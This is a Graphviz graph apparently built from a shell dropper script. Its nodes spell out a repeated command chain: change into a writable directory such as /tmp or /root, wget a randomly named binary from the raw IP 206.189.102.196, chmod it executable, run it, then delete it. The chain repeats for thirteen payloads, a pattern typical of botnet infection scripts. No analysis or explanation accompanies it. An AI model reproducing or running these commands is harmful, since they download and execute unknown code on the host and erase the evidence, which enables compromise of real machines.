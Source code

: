 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://206.189.102.196/earyzq "];
10 -> 12 [label=";,"];
12 [label="chmod +x earyzq "];
12 -> 14 [label=";,"];
14 [label="./earyzq "];
14 -> 16 [label=";,"];
16 [label="rm -rf earyzq "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://206.189.102.196/cemtop "];
28 -> 30 [label=";,"];
30 [label="chmod +x cemtop "];
30 -> 32 [label=";,"];
32 [label="./cemtop "];
32 -> 34 [label=";,"];
34 [label="rm -rf cemtop "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://206.189.102.196/vtyhat "];
46 -> 48 [label=";,"];
48 [label="chmod +x vtyhat "];
48 -> 50 [label=";,"];
50 [label="./vtyhat "];
50 -> 52 [label=";,"];
52 [label="rm -rf vtyhat "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://206.189.102.196/vvglma "];
64 -> 66 [label=";,"];
66 [label="chmod +x vvglma "];
66 -> 68 [label=";,"];
68 [label="./vvglma "];
68 -> 70 [label=";,"];
70 [label="rm -rf vvglma "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://206.189.102.196/nvitpj "];
82 -> 84 [label=";,"];
84 [label="chmod +x nvitpj "];
84 -> 86 [label=";,"];
86 [label="./nvitpj "];
86 -> 88 [label=";,"];
88 [label="rm -rf nvitpj "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://206.189.102.196/razdzn "];
100 -> 102 [label=";,"];
102 [label="chmod +x razdzn "];
102 -> 104 [label=";,"];
104 [label="./razdzn "];
104 -> 106 [label=";,"];
106 [label="rm -rf razdzn "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://206.189.102.196/lnkfmx "];
118 -> 120 [label=";,"];
120 [label="chmod +x lnkfmx "];
120 -> 122 [label=";,"];
122 [label="./lnkfmx "];
122 -> 124 [label=";,"];
124 [label="rm -rf lnkfmx "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://206.189.102.196/qvmxvl "];
136 -> 138 [label=";,"];
138 [label="chmod +x qvmxvl "];
138 -> 140 [label=";,"];
140 [label="./qvmxvl "];
140 -> 142 [label=";,"];
142 [label="rm -rf qvmxvl "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://206.189.102.196/ajoomk "];
154 -> 156 [label=";,"];
156 [label="chmod +x ajoomk "];
156 -> 158 [label=";,"];
158 [label="./ajoomk "];
158 -> 160 [label=";,"];
160 [label="rm -rf ajoomk "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://206.189.102.196/fwdfvf "];
172 -> 174 [label=";,"];
174 [label="chmod +x fwdfvf "];
174 -> 176 [label=";,"];
176 [label="./fwdfvf "];
176 -> 178 [label=";,"];
178 [label="rm -rf fwdfvf "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://206.189.102.196/atxhua "];
190 -> 192 [label=";,"];
192 [label="chmod +x atxhua "];
192 -> 194 [label=";,"];
194 [label="./atxhua "];
194 -> 196 [label=";,"];
196 [label="rm -rf atxhua "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://206.189.102.196/qtmzbn "];
208 -> 210 [label=";,"];
210 [label="chmod +x qtmzbn "];
210 -> 212 [label=";,"];
212 [label="./qtmzbn "];
212 -> 214 [label=";,"];
214 [label="rm -rf qtmzbn "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://206.189.102.196/adcvds "];
226 -> 228 [label=";,"];
228 [label="chmod +x adcvds "];
228 -> 230 [label=";,"];
230 [label="./adcvds "];
230 -> 231 [label=";,"];
}
